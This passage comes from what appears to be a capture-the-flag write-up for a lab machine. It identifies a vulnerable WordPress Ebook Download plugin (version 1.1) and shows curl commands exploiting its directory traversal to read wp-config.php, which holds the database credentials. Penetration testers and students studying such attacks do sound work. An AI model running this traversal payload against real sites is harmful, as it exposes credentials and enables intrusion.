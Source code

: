 This is plenty to identify the Ebook Download plugin, and clicking on
the folder shows the contents including the `readme.txt` with the
version as well as the rest of the plugin files.

## Shell as user

### Local File Read

#### Background

The links from `wpscan` don't give a POC, but a quick Google search for
Ebooks-Download directory traversal finds [this
exploit-db](https://www.exploit-db.com/exploits/39575) post. It shows
that the version can be disclosed with
`http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt`
(which is what's referenced in the `wpscan` results), and that the POC
is to visit
`/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`.

Just looking at the POC, it looks like the `ebookdownloadurl` accepts a
local path which probably wasn't what the author intended.

#### POC

I'll manually check the version just to verify:



    oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
    === Plugin Name ===                               
    Contributors: zedna                                                 
    Donate link: https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=3ZVGZTC7ZPCH2&lc=CZ&item_name=Zedna%20Brickick%20Website&currency_code=USD&bn=PP%2dDonationsBF%3abtn_donateCC_LG%2egif%3aNonHosted
    Tags: ebook, file, download                                         
    Requires at least: 3.0.4         
    Tested up to: 4.4                             
    Stable tag: 1.1 
    ...[snip]...



The "Stable tag" of 1.1 shows a vulnerable version.

I'm able to read the `wp-config.php` file just like the POC suggests,
including the database connection information:



    oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
    ../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
    /**
     * The base configuration for WordPress
    ...[snip]...
     */
